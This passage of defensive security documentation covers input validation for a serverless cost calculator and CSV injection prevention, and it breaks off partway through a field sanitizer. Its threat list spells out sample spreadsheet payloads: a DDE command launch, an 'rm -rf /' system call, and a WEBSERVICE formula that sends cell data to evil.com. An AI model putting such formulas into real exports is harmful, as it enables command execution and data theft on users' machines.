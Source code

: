 **Serverless Input Validation**:
```python
def validate_serverless_inputs(data: dict) -> dict:
    """
    Validate serverless configuration inputs
    
    Multi-provider support with provider-specific validation
    """
    provider = data.get('provider', '').strip()
    if not provider:
        raise ValidationError("Provider is required")
    
    memory_mb = safe_int_conversion(data['memory_mb'], 128, 8192, 'Memory size')
    execution_time_seconds = safe_float_conversion(data['execution_time_seconds'], 0.1, 540.0, 'Execution time')
    monthly_executions = safe_int_conversion(data['monthly_executions'], 0, 1_000_000_000, 'Monthly executions')
    
    return {
        'provider': provider,
        'memory_mb': memory_mb,
        'execution_time_seconds': execution_time_seconds,
        'monthly_executions': monthly_executions,
        'cpu_count': data.get('cpu_count'),
        'egress_per_request_kb': safe_float_conversion(data.get('egress_per_request_kb', 0), 0.0, 1_000_000.0, 'Egress per request'),
        'internet_transfer_ratio': safe_float_conversion(data.get('internet_transfer_ratio', 100.0), 0.0, 100.0, 'Internet transfer ratio'),
        'exchange_rate': safe_float_conversion(data.get('exchange_rate', 150.0), 50.0, 300.0, 'Exchange rate')
    }
```

### 2. CSV Injection Prevention

#### Security Threat Analysis

**CSV Injection Attack Vectors**:
1. **Formula Injection**: `=cmd|'/c calc'!A0`
2. **System Commands**: `=system("rm -rf /")`
3. **Script Execution**: `=exec("malicious_script.exe")`
4. **Data Exfiltration**: `=WEBSERVICE("http://evil.com/" & A1)`

#### Implementation (`app/utils/csv_sanitizer.py`)

```python
def sanitize_csv_field(field: Any) -> str:
    """
    Sanitize field for safe CSV output to prevent CSV injection attacks
    
    Protection Strategy:
    1. Remove dangerous leading characters
    2. Remove formula patterns
    3. Escape special characters
    4. Quote fields containing delimiters
    """
    if field is None:
        return ""
    
    field_str = str(field)
    
    # Phase 1: Remove dangerous CSV injection characters from the beginning
    dangerous_chars = ['=', '+', '-', '@', '\t', '\r']
    while field_str and field_str[0] in dangerous_chars:
        field_str = field_str[1:]
```